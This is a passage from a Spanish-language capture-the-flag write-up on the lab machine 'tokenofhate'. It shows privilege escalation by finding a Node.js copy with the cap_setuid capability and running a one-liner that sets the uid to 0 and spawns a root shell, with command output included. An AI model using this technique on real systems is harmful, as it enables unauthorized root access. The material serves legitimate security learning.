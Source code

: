 ## Escalada de privilegios

Tratamos la terminal o introducimos nuestra clave pública SSH para trabajar más cómodamente en el servidor.

Buscamos ficheros con capabilities:

```bash
$ getcap -r /
getcap -r /
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/yournode cap_setuid=ep
```

Encontramos un binario sospechoso, `/usr/bin/yournode`, y confirmamos que es una copia de `nodejs`:

```bash
$ /usr/bin/yournode
Welcome to Node.js v18.19.0.
Type ".help" for more information.
> .exit
$ /usr/bin/yournode --version
v18.19.0
```

Buscamos en `gtfobins` una forma de escalar con un binario `node` que tenga capabilities y la encontramos.

![alt text](../../../assets/images/token-of-hate/image-17.png)

Ejecutamos el siguiente comando para conseguir privilegios de root:

```bash
ctesias@tokenofhate:~$ /usr/bin/yournode -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
# id
uid=0(root) gid=1000(ctesias) grupos=1000(ctesias),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
# 
```

